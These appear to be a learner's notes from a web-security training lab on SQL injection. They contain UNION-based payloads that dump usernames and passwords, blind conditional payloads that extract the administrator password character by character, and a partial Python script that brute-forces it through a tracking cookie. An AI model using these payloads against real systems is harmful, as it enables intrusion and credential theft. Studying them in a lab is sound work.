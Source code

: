 
MySQL		'foo' 'bar' [Note the space between the two strings]
			CONCAT('foo','bar')

`'UNION+SELECT+null,username||'-'||password+FROM+users--`

Output:

```
carlos-oaym6na3wgbptt1rz1eu
administrator-d49v6zz4hdczno94kvd7
wiener-vsbbtfiu7s17bi8a24ic
```

# Blind SQL injection

## Exploiting blind SQL injection by triggering conditional responses

Example:

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```
The first of these values causes the query to return results, because the injected AND '1'='1 condition is true. As a result, the "Welcome back" message is displayed.
The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

=> Extract each each character at a time:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
=> This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
=> This does not return "Welcome back", First character is not greater than t.

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
=> "Welcome back" appears => the first character of password is s.


Example exploit script:
```python
import httpx
import string

password_length = 20
password = ""
alphabet= list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
print(alphabet)

url = "https://0a25000a03adb1058238338d00af00cc.web-security-academy.net/"
cookies = {
    "session": "JJRFC6uHJFhRo7v4niHdGrE1HAr61Pw6",
    "TrackingId": "a"
}

with httpx.Client() as client:
   for position in range(1, password_length + 1):  
    for x in alphabet:  
        cookies["TrackingId"] = (
            f"PCC6wvbtVCknZGoW' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {position}, 1) = '{x}"
        )
        
        response = httpx.get(url, cookies=cookies)
```